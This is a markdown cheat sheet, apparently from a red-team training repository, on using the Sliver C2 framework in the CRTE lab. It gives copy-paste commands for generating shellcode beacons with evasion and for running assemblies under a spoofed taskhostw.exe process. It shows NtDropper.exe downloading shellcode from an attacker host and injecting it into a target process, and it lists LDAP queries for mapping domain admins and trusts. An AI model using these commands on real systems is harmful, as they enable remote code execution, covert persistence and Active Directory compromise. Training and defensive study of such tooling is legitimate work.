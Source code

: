 # Sliver C2 And Tools CheatSheet CRTE
Sliver is a C2 created by BishopFox compiled in the go language.

Note: Sliver has a lot of OpSec issues

## Basic Commands



| Command | Info |
| ------ | ------ |
| ```beacons``` | lists current beacons with info
| ```background``` | backgrounds current session (much like msfconsole)
| ```sessions``` | list current sessions
| ```use -i <id>``` | use beacon/session with the given id 
| ```info``` | lists info of current session
| ```armory``` | lists avaliable extensions
| ```armory install <extension>``` | installs an extension
| ```loot``` | displays loot saved
| ```implants``` | displays implants
| ```jobs``` | lists current jobs
| ```pivots``` | lists pivots
| ```pivots tcp -l <port>``` | create tcp pivot with port <port>
| ```interactive``` | used with a beacon to start an interactive session
| ```shell``` | starts an interactive shell

*Note: using ```shell``` is less OppSec friendly and it is recommended to use ```interactive```

## Listeners
Various listeners are support by Sliver and can be automatically started using these various protocols:
```sh
dns
http
https
mtls
```

In the CRTE we use https.
## Beacons
| Options | Info |
| ------ | ------ |
| ```generate beacon <options>``` | base command to generate a beacon
| ```-b or --http http://10.0.0.23``` | use the http or https protocol
| ```-i or --tcp-pivot 10.0.0.23:<port>``` | create a pivot beacon with port ```<port>```
| ```-f or --format shellcode``` | generate the beacon in this format
| ```-N or --name Name``` | the name displayed in Sliver
| ```-e or --evasion``` | creates the beacon with some evasion
| ```-m or --mtls``` | uses mtls protocol
| ```-d or --dns``` | uses dns protocol
| ```-s or --save /path/to/save/file.format``` | displays implants

## Template

For easy copy pasta. In a session, this will execute the specified local tool on the remote machine

```sh
execute-assembly -A /RuntimeWide -d TaskSchedulerRegularMaintenanceDomain -p 'C:\Windows\System32\taskhostw.exe' -t 80 '/home/kali/Desktop/CRTE Tools/Sliver/someTool.exe'
```
## Getting a session
```
1. generate beacon (use shellcode format)
2. host shellcode
3. use NtDropper.exe on target to start your session
```
Obviously there are many ways to do this, however this is what is shown in CRTE
## Tools

##### NtDropper.exe
NtDropper is a PE Loader that we can use to perform process injection into a target a target process. It will download and invoke hosted shellcode.

```NtDropper.exe <IP> <shellcode path>```
ex:
```NtDropper.exe 10.0.0.23 Implants/shellcode.bin```
this will download shellcode directly from ```http://10.0.0.23:80/Implants/shellcode.bin```
##### Enumeration with ADSearch.exe

Helpful tool to enumerate Active Directory. In Sliver, we would execute this tool on the target system by typing:

```execute-assembly -A /RuntimeWide -d TaskSchedulerRegularMaintenanceDomain -p 'C:\Windows\System32\taskhostw.exe' -t 80 '/home/kali/Desktop/CRTE Tools/Sliver/ADSearch.exe' '<options>'```
Basic options:
| Options | Info |
| ------ | ------ |
| ```'--users'``` | Enumerate users
| ```'--computers'``` | Enumerate computers
| ```'--domain-admins'``` | Enumerate domain admins

We can also perform LDAP queries using ADSearch, which makes this a very powerful tool. To do this we would use ```'--search "<query>" --attributes <attributes>'```

If copy pasting, ensure to include the openning and closing ticks
| Search Options | Info |
| ------ | ------ |
| ```'--search "(&(objectCategory=group)(cn=enterprise admins))" --attributes cn,member --domain techcorp.local'``` | Enumerate enterprise admins
| ```'--search "(objectCategory=organizationalUnit)" --attributes name'``` | List all OU's
| ```'--search "(OU=SomeOU)" --attributes distinguishedname'``` | Enumerate DistinguishedName for SomeOU
| ```'--search "(objectCategory=groupPolicyContainer)" --attributes displayname'``` | Enumerate GPO's
| ```'--search "(OU=SomeOU)" --attributes gplink'``` | Enumerate GPOs applied to SomeOU. This is step one
| ```'--search "(&(objectCategory=groupPolicyContainer)((name={gplink ID})))" --attributes displayname'``` | copy paste found gpLink in name={}. This is step two. *NOTE:* (|(name={gplink ID}))) is the proper format
| ```'-d some.domain.local --search "(objectClass=trustedDomain)" --attributes cn,flatName,trustDirection,trustPartner,name,objectClass,trustAttributes --json'``` | Map trusts of some.domain.local. We can add the --json arg to give us the results in json format for readibility |
| ```'-d some.domain.local --search "(trustAttributes=4)" --attributes cn,flatName,trustDirection,trustPartner,name,objectClass,trustAttributes --json'``` | Map External Trusts |
| ```'-d some.trust.local --search "(objectClass=trustedDomain)" --attributes cn,flatName,trustDirection,trustPartner,name,objectClass,trustAttributes --json'``` | Enumerate trusts of a trusting forest |

